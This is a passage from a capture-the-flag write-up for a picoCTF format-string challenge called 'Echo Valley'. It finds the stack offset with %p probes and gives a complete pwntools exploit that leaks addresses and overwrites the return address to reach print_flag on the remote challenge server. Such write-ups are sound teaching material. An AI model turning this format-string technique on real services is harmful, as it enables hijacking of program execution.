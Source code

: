 Returns: The payload in order to do needed writes

To find the offset we can input some random text and then input some `%x` to see when we see out input on the stack.

```
└─$ ./valley
Welcome to the Echo Valley, Try Shouting: 
AAAAAAAA %p %p %p %p %p %p %p %p %p %p 
You heard in the distance: AAAAAAAA 0x7ffebcb80410 (nil) (nil) 0x5651c30c26d7 0x4 0x4141414141414141 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa702520702520
```
We can see that our input, `AAAAAAAA` is the 6th value on the stack as `0x4141414141414141`.
Thus, we can do the following in python,
```python
payload = fmtstr_payload(6, {return_addr_stack_addr: print_flag_addr})
```
## Full Solution
```python
from pwn import *

# Set the context
context.binary = './valley'  
context.log_level = 'debug'

# Connect to remote
p = remote("shape-facility.picoctf.net",59554)

p.recvuntil(b'Welcome to the Echo Valley, Try Shouting: ')

# Leak the return address of the echo_valley function
p.sendline(b'%21$p')
p.recvuntil(b'You heard in the distance: ')
return_addr = p.recvline().decode()
log.info(f"Leaked return address: {return_addr}")
return_addr = int(return_addr, 16)

p.sendline(b'%20$p')
p.recvuntil(b'You heard in the distance: ')
saved_ebp = p.recvline().decode()
log.info(f"Leaked saved EBP: {saved_ebp}")
saved_ebp = int(saved_ebp,16)

# Calculate the address of print_flag
print_flag_offset = -0x1aa  # Offset of print_flag (from objdump)
print_flag_addr = return_addr + print_flag_offset
log.info(f"print_flag address: {hex(print_flag_addr)}")

# Calculate the stack address of the return address
return_addr_stack_addr = saved_ebp - 8
log.info(f"Return address stack address: {hex(return_addr_stack_addr)}")

# Craft the payload
payload = fmtstr_payload(6, {return_addr_stack_addr: print_flag_addr})  
p.sendline(payload)
p.sendlineafter(b'You heard in the distance: ', b'exit')

# Print the flag
print(p.recvall().decode('latin-1').split(" ")[-1])
```
